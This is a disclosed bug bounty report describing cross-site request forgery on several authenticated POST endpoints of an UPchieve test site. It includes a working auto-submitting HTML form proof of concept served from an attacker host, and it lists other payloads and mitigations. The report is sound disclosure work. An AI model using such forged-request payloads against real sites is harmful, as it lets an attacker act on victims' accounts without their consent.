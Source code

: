 # Widespread CSRF on authenticated POST endpoints

## Report Details
- **Report ID**: 1309435
- **URL**: https://hackerone.com/reports/1309435
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-08-18T06:16:46.093Z
- **Disclosed**: 2022-02-13T10:38:20.252Z

## Reporter
- **Username**: zeyu2001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upchieve

## Vulnerability Information
## Summary:

Cross-Site Request Forgery (CSRF) is possible on most, if not all, authenticated POST endpoints.

While CORS is configured such that the Access-Control-Allow-Origin header is set to `Access-Control-Allow-Origin: hackers.upchieve.org`, CORS does **not** prevent CSRF - it only prevents the attacker from reading the response. This does not stop the attacker from performing any arbitrary actions on behalf of the user.

This is possible through a simple HTML form with hidden inputs, submitted with JavaScript. While POST requests are made using JSON data by default, `application/x-www-form-urlencoded` is accepted as well. Because the user's session cookie does not have the SameSite attribute set, it is sent along with the request.

The following endpoints were found to be vulnerable:
- `POST /api/calendar/save` (set availability for text messages)
- `POST /api/training/score` (submit quizzes and subject certifications)
- `POST /auth/reset/send` (send password reset email)
- `POST /api/user/volunteer-approval/background-information` (submit background information)
- `POST /api/user/volunteer-approval/reference` (request a reference)

The attacker can perform any of the above actions on behalf of the user, as long as the user has a valid session cookie. There are probably more endpoints to be discovered, but I do not have access to them yet due to the approval / onboarding process.

PUT requests, particularly `PUT /api/user` (to update a user's phone number and account status), are not possible through this method. However, older browsers might not comply to CORS pre-flight requests and still allow a PUT request initiated by JavaScript on the attacker's site to go through.

## Steps To Reproduce:

1. As a victim, log in to https://hackers.upchieve.org/
2. Create a page like the one below.

This is an example for performing a CSRF on the `/api/calendar/save` endpoint (the full HTML file is attached). In this example, we set all the possible time slots to "true".

```html
<html>
  <body>
    <form action="https://hackers.upchieve.org/api/calendar/save" method="POST">
        <input type="hidden" name="availability[Sunday][12a]" value="true" />
        <input type="hidden" name="availability[Sunday][1a]" value="true" />
		
		...
		
        <input type="hidden" name="availability[Saturday][11p]" value="true" />
        <input type="hidden" name="tz" value="Asia/Singapore" />
    </form>
    <script>
      	document.forms[0].submit();
    </script>
  </body>
</html>
```

3. Serve the page on the attacker server.
4. As the victim, visit http://ATTACKER_SERVER/calendar_csrf.html

Once the HTML page loads on the browser, the POST request is submitted and we would see the following response:

```json
{"msg":"Schedule saved"}
```

5. Verify that the victim's calendar has been modified.

I have also prepared other CSRF payloads for the other endpoints.

- `calendar_csrf.html` performs the above-described attack.
- `reference_csrf.html` sends out reference requests on behalf of the victim.
- `quiz_csrf.html` submits quizzes for grading on behalf of the victim.
- `reset_csrf` sends out password resets on behalf of the victim.

## Supporting Material/References:

I have attached the CSRF payloads, a screenshot of the changed calendar, and a screenshot of the output from the quiz CSRF.

## Recommendations for Fixing/Mitigation

- Use CSRF tokens
- Use the SameSite attribute for cookies

## Impact

When an authenticated user visits any attacker-controlled site, the attacker is able to perform arbitrary authenticated actions on behalf of the user. While the attacker cannot obtain the request output from the CSRF, he is still able to perform sensitive actions blindly.

## Attachments
- calendar_csrf.html
- quiz_csrf.html
- changed_calendar.png
- reference_csrf.html
- reset_csrf.html
- quiz_csrf.png
